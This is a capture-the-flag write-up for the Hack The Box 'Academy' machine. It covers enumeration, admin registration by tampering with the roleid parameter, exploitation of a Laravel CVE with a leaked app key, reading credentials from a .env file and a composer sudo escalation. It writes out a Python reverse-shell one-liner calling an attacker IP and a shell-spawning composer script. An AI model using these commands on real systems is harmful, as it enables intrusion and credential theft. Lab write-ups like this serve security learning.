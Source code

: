 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
